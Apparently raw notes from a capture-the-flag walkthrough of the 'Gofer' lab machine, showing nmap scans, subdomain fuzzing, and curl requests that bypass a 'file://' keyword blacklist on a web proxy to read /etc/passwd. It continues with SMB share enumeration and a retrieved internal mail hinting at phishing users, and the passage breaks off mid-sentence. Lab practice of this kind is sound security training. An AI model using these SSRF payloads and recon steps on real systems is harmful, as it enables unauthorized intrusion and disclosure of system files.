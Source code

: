 gofer 10.10.11.225
---
nmap -p- --min-rate 4000 10.10.11.225
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 08:22 CEST
Nmap scan report for 10.10.11.225
Host is up (0.20s latency).
Not shown: 63571 filtered tcp ports (no-response), 1960 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
---
nmap -p 80,139,445 -sC -sV --min-rate 3000 10.10.11.225
---
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 08:26 CEST
Nmap scan report for 10.10.11.225
Host is up (0.12s latency).

PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to http://gofer.htb/
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: Host: gofer.htb

Host script results:
| smb2-time: 
|   date: 2023-08-03T06:26:56
|_  start_date: N/A
|_nbstat: NetBIOS name: GOFER, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.23 seconds

---
echo "10.10.11.225 gofer.htb" | sudo tee -a /etc/hosts
---
wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 400,301 -H 'Host:FUZZ.gofer.htb' http://gofer.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://gofer.htb/
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                     
=====================================================================

000001171:   401        14 L     54 W       462 Ch      "proxy" 
---
$curl -X POST http://proxy.gofer.htb/index.php
---
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
---
┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST -d 'URL=http://10.10.16.26' http://proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=http://10.10.16.26
<!-- Welcome to Gofer proxy -->
┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=file:///etc/passwd
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: file:// !</body></html>
┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=file:/etc/passwd
<!-- Welcome to Gofer proxy -->
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
jhudson:x:1000:1000:Jocelyn Hudson,,,:/home/jhudson:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
postfix:x:106:113::/var/spool/postfix:/usr/sbin/nologin
jdavis:x:1001:1001::/home/jdavis:/bin/bash
tbuckley:x:1002:1002::/home/tbuckley:/bin/bash
ablake:x:1003:1003::/home/ablake:/bin/bash
tcpdump:x:107:117::/nonexistent:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false

┌─[xbutch@parrot]─[~]
└──╼ $smbmap -H 10.10.11.225
[+] IP: 10.10.11.225:445	Name: gofer.htb                                         
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	shares                                            	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.13.13-Debian)

┌─[xbutch@parrot]─[~]
└──╼ $smbclient //gofer.htb/shares
Password for [WORKGROUP\xbutch]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Oct 28 21:32:08 2022
  ..                                  D        0  Fri Apr 28 13:59:34 2023
  .backup                            DH        0  Thu Apr 27 14:49:32 2023
		5061888 blocks of size 1024. 2153684 blocks available
smb: \> cd .backup
smb: \.backup\> ls
  .                                   D        0  Thu Apr 27 14:49:32 2023
  ..                                  D        0  Fri Oct 28 21:32:08 2022
  mail                                N     1101  Thu Apr 27 14:49:32 2023

		5061888 blocks of size 1024. 2153628 blocks available
smb: \.backup\> get mail
getting file \.backup\mail of size 1101 as mail (3,0 KiloBytes/sec) (average 3,0 KiloBytes/sec)

┌─[xbutch@parrot]─[~]
└──╼ $cat mail
From jdavis@gofer.htb  Fri Oct 28 20:29:30 2022
Return-Path: <jdavis@gofer.htb>
X-Original-To: tbuckley@gofer.htb
Delivered-To: tbuckley@gofer.htb
Received: from gofer.htb (localhost [127.0.0.1])
        by gofer.htb (Postfix) with SMTP id C8F7461827
        for <tbuckley@gofer.htb>; Fri, 28 Oct 2022 20:28:43 +0100 (BST)
Subject:Important to read!
Message-Id: <20221028192857.C8F7461827@gofer.htb>
Date: Fri, 28 Oct 2022 20:28:43 +0100 (BST)
From: jdavis@gofer.htb

Hello guys,

Our dear Jocelyn received another phishing attempt last week and his habit of clicking on links without paying much attention may be problematic one day. That's why from now on, I've decided that important documents will only be sent internally, by mail, which should greatly limit the risks. If possible, use an **.odt format**, as documents saved in Office Word are not always well interpreted by Libreoffice.

PS: Last thing for Tom; I know you're working on our web proxy but if you could restrict access, it will be more secure until you have finished it. It seems to me that it should be possible to do so via <Limit>
